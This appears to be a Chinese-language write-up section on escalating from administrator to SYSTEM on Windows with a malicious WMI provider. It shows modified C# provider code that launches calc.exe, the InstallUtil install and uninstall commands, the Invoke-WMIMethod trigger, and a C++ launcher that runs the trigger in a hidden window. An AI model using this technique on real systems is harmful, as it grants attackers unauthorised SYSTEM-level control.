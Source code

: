 0x05 from admin to system
=====

我使用的方法为：EvilNetConnectionWMIProvider

地址为：[https://github.com/jaredcatkinson/EvilNetConnectionWMIProvider](https://github.com/jaredcatkinson/EvilNetConnectionWMIProvider)

原工程为以system权限执行cmd，这里简单修改一下把内容替换为启动calc.exe

EvilNetConnectionWMIProvider.cs中的RunPS作如下修改：

```
    public static string RunPS(string cmd)
    {
        System.Diagnostics.Process.Start("c:\\windows\\system32\\calc.exe");


        return cmd;
    }

```

编译生成EvilNetConnectionWMIProvider.dll

安装：  
( 需要管理员权限 )

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /i EvilNetConnectionWMIProvider.dll

```

卸载:  
( 需要管理员权限 )

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /u EvilNetConnectionWMIProvider.dll

```

**注：**  
卸载存在bug，再次注册使用需要修改AssemblyInfo.cs中的assembly: Guid

调用wmi控件：  
( 需要管理员权限 )

```
powershell Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList "whoami", $NULL

```

会打开一个system权限的calc.exe

因此0x04中完整的c++程序代码如下：

```
#include "Windows.h"
int APIENTRY wWinMain(_In_ HINSTANCE hInstance,
    _In_opt_ HINSTANCE hPrevInstance,
    _In_ LPWSTR    lpCmdLine,
    _In_ int       nCmdShow)
{
    WinExec("regedit", SW_SHOW);
    WinExec("cmd /c powershell.exe Invoke-WMIMethod -Class Win32_NetConnection -Name RunPs -ArgumentList ""whoami"", $NULL", SW_HIDE);
    return 0;
}

```
